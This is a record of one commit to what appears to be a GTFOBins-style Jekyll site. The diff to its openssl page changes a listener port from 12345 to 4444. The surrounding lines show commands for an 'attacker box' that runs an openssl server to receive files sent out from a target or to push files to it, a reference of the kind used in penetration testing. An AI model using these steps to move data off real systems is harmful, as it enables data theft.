

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/openssl.md, in a window 1280 px wide. Shown: the part 335-990 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update openssl.md

```diff
--- a/_gtfoud/openssl.md
+++ b/_gtfoud/openssl.md
@@ -5,7 +5,7 @@ functions:
         To collect the file run the following on the attacker box:
 
             openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
-            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save
+            openssl s_server -quiet -key key.pem -cert cert.pem -port 4444 > file_to_save
 
         Send a local file via TCP. Transmission will be encrypted.
       code: |
@@ -15,7 +15,7 @@ functions:
         To send the file run the following on the attacker box:
 
             openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
-            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send
+            openssl s_server -quiet -key key.pem -cert cert.pem -port 4444 < file_to_send
 
         Fetch a file from a TCP port, transmission will be encrypted.
       code: |
```
